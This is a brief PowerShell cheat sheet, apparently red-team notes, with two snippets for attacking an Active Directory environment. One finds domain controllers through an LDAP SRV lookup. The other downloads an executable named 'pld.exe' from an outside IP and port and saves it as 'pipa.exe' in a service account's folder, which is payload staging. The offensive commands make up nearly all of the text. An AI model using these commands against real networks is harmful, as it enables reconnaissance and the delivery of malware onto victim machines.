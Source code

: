# Powershell

### Get all domain controllers

```powershell
$domain = ((systeminfo | Select-String "Domain:").Line -split ":")[1].Trim()
nslookup -type=SRV "_ldap._tcp.dc._msdcs.$domain"
```

### Download file

```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData("http://192.168.20.31:4445/pld.exe");[System.IO.File]::WriteAllBytes("C:\Users\adfs_svc\Documents\pipa.exe",$bytes);
```

